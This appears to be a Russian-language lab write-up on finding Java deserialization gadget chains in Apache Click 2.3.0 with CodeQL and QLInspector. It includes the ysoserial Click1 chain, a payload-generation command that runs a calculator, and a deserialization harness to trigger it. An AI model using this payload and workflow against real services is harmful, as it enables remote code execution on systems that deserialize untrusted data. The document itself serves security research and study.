

3. ysoserial/codeql

с помощью https://github.com/synacktiv/QLinspector
найти цепочки вызовов обьектов, и сгененерировать эксплойты для них,
начинать с цепочек из ysoserial

Курбатов Ярослав    click2.3.0

## Сборка CodeQL database для `click-2.3.0`

1. Соберем исходный код через subversion: svn co http://svn.apache.org/repos/asf/click/tags/click-2.3.0
2. Т.к. пакет последний раз обновлялся 10 лет назад и работает через ant, потратим 3 часа чтобы сбилдить проект (убрать нерабоющие зависимости из build/build.xml, найти нужную версию JDK, ...). Затем соберем базу, используя кастомную команду:
   ```
   codeql database create -c "ant build-framework -f build/build.xml" --language=java -- codeql-database
   ```


## Поиск gadget chains с помощью QLInspector

Посмотрим, какие можно найти синки:



Посмотрим, какие можно найти сурсы:


Посмотрим, какие gadget chains находит QLInspector:


Все три chains ведут из одного метода `compare`:

```java
        public int compare(Object row1, Object row2) {

            this.ascendingSort = column.getTable().isSortedAscending() ? 1 : -1;

            Object value1 = column.getProperty(row1);
            Object value2 = column.getProperty(row2);

            if (value1 instanceof Comparable && value2 instanceof Comparable) {

                if (value1 instanceof String || value2 instanceof String) {
                    return stringCompare(value1, value2)  * ascendingSort;

                } else {

                    return ((Comparable) value1).compareTo(value2) * ascendingSort;
                }

            } else if (value1 != null && value2 != null) {

                return value1.toString().compareToIgnoreCase(value2.toString())
                    * ascendingSort;

            } else if (value1 != null && value2 == null) {

                return +1 * ascendingSort;

            } else if (value1 == null && value2 != null) {

                return -1 * ascendingSort;

            } else {
                return 0;
            }
        }
```

в метод `getObjectPropertyValue`:

```java
    private static Object getObjectPropertyValue(Object source, String name, Map cache) {
        PropertyUtils.CacheKey methodNameKey = new PropertyUtils.CacheKey(source, name);

        Method method = null;
        try {
            method = (Method) cache.get(methodNameKey);

            if (method == null) {

                method = source.getClass().getMethod(ClickUtils.toGetterName(name));
                cache.put(methodNameKey, method);
            }

            return method.invoke(source);

        } catch (NoSuchMethodException nsme) {

            try {
                method = source.getClass().getMethod(ClickUtils.toIsGetterName(name));
                cache.put(methodNameKey, method);

                return method.invoke(source);

            } catch (NoSuchMethodException nsme2) {

                try {
                    method = source.getClass().getMethod(name);
                    cache.put(methodNameKey, method);

                    return method.invoke(source);

                } catch (NoSuchMethodException nsme3) {
                    String msg = "No matching getter method found for property '"
                        + name + "' on class " + source.getClass().getName();

                    throw new RuntimeException(msg);

                } catch (Exception e) {
                    String msg = "Error getting property '" + name + "' from " + source.getClass();
                    throw new RuntimeException(msg, e);
                }

            } catch (Exception e) {
                String msg = "Error getting property '" + name + "' from " + source.getClass();
                throw new RuntimeException(msg, e);
            }

        } catch (Exception e) {
            String msg = "Error getting property '" + name + "' from " + source.getClass();
            throw new RuntimeException(msg, e);
        }
    }
```

причем все три chains отличаются только тем, в каком конкретно вызове `method.invoke(source);` в методе `getObjectPropertyValue` они заканчиваются.

Можно проверить, что это чейны эквивалентны тому с чем умеет работать ysoserial:

https://github.com/frohoff/ysoserial/blob/b7d0f27b46af06bbced7dbafddc49678179d3708/src/main/java/ysoserial/payloads/Click1.java#L22

```java
/*
    Apache Click chain based on arbitrary getter calls in PropertyUtils.getObjectPropertyValue().
    We use java.util.PriorityQueue to trigger ColumnComparator.compare().
    After that, ColumnComparator.compare() leads to TemplatesImpl.getOutputProperties() via unsafe reflection.

    Chain:

    java.util.PriorityQueue.readObject()
      java.util.PriorityQueue.heapify()
        java.util.PriorityQueue.siftDown()
          java.util.PriorityQueue.siftDownUsingComparator()
            org.apache.click.control.Column$ColumnComparator.compare()
              org.apache.click.control.Column.getProperty()
                org.apache.click.control.Column.getProperty()
                  org.apache.click.util.PropertyUtils.getValue()
                    org.apache.click.util.PropertyUtils.getObjectPropertyValue()
                      java.lang.reflect.Method.invoke()
                        com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getOutputProperties()
```


## Генерация эксплойта с помощью ysoserial

Сгенерируем сериализованный пэйлоад, использую пакет `Click1`:

```shell
java -jar ysoserial-all.jar Click1 "gnome-calculator" > payload.bin
```

в качестве команды используем калькулятор.

Напишем небольшую программу:

```java
package com.mycompany.app;

import java.io.ByteArrayInputStream;
import java.io.ObjectInputStream;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.Paths;


public class Click {
	public static void main(String[] args) throws Exception {
    Path path = Paths.get(args[0]);
    byte[] data = Files.readAllBytes(path);

    ObjectInputStream ois = new ObjectInputStream(
        new ByteArrayInputStream(data)
    );

    ois.readObject();
    ois.close();
	}
}
```

и добавим нужные библиотеки (click-nodeps, click-extras) в список зависимостей:

```xml
<dependency>
  <groupId>org.apache.click</groupId>
  <artifactId>click-nodeps</artifactId>
  <version>2.3.0</version>
  <scope>compile</scope>
</dependency>
<dependency>
    <groupId>org.apache.click</groupId>
    <artifactId>click-extras</artifactId>
    <version>2.3.0</version>
    <scope>compile</scope>
</dependency>
```

И теперь выполним main, указав в качестве первого аргумента путь к `payload.bin`:


